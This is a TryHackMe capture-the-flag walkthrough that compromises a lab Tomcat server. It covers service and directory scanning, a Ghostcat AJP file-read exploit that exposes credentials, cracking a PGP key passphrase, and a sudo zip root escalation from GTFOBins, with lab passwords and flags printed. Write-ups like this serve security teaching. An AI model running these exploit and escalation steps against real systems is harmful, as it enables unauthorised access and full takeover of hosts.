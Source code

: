 # TryHackMe-Thompson

> Abdullah Rizwan | 20th September , 10:15 PM

## NMAP


```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-20 13:15 EDT
Nmap scan report for 10.10.109.92
Host is up (0.17s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.92 seconds

```


## Gobuster

```
gobuster dir -u http://$IP:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-m
edium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.109.92:8080
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/20 13:18:06 Starting gobuster
===============================================================
/docs (Status: 302)
/examples (Status: 302)
/manager (Status: 302)

```

When we visit `/manger` we are not prompt with login.

<img src="https://imgur.com/fQZgbPW.png"/>

Now we can look for port `8009` and there is an exploit for it `https://github.com/00theway/Ghostcat-CNVD-2020-10487.git`

Run the exploit 

```
python3 ajpShooter.py http://10.10.109.92:8080 8009 /WEB-INF/web.xml read
``` 

<img src="https://imgur.com/iVdmiAn.png"/>


You will find credential `skyfuck`:`8730281lkjlkjdqlksalks`


<img src="https://imgur.com/g1atsoj.png"/>

Going to `merlin`'s folder we can find `THM{GhostCat_1s_so_cr4sy}`

we can see two files `credentials.pgp` and `tryhackme.asc` so we are going to use `gpg2john` to find hash of  `tryhackme.asc`

<img src="https://imgur.com/dwB310K.png"/>

<img src="https://imgur.com/nj8nfcL.png"/>

```
alexandru        (tryhackme)
```

We will use gpg to import a file 

```
skyfuck@ubuntu:~$ gpg --import tryhackme.asc 
gpg: keyring `/home/skyfuck/.gnupg/secring.gpg' created
gpg: key C6707170: secret key imported
gpg: key C6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key C6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1

```
Then we will specify from using `tryhackme.asc` we will decrypt `credential.pgp` by using `alexandru `.
```
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp 

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123jskyfuck@ubuntu:~$ 

```
We are given a username and password

`merlin`:`asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

```
skyfuck@ubuntu:~$ su merlin
Password: 
merlin@ubuntu:/home/skyfuck$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
merlin@ubuntu:/home/skyfuck$ 

```
We can run `zip` as root so let's find how we can escalate our privileges.

## Privilege Escalation

Visiting `https://gtfobins.github.io/gtfobins/zip/` 
```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```



```
merlin@ubuntu:/home/skyfuck$ TF=$(mktemp -u)
merlin@ubuntu:/home/skyfuck$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
rm: missing operand
Try 'rm --help' for more information.
# ls -la
total 44
drwxr-xr-x 4 skyfuck skyfuck 4096 Sep 20 10:55 .
drwxr-xr-x 4 root    root    4096 Mar 10  2020 ..
-rw------- 1 skyfuck skyfuck  167 Sep 20 11:10 .bash_history
-rw-r--r-- 1 skyfuck skyfuck  220 Mar 10  2020 .bash_logout
-rw-r--r-- 1 skyfuck skyfuck 3771 Mar 10  2020 .bashrc
drwx------ 2 skyfuck skyfuck 4096 Sep 20 10:48 .cache
-rw-rw-r-- 1 skyfuck skyfuck  394 Mar 10  2020 credential.pgp
drwx------ 2 skyfuck skyfuck 4096 Sep 20 11:16 .gnupg
-rw-r--r-- 1 skyfuck skyfuck  655 Mar 10  2020 .profile
-rw-rw-r-- 1 skyfuck skyfuck 5144 Mar 10  2020 tryhackme.asc
# whoami
root
# 

```
We are now root.

`THM{Z1P_1S_FAKE}`.
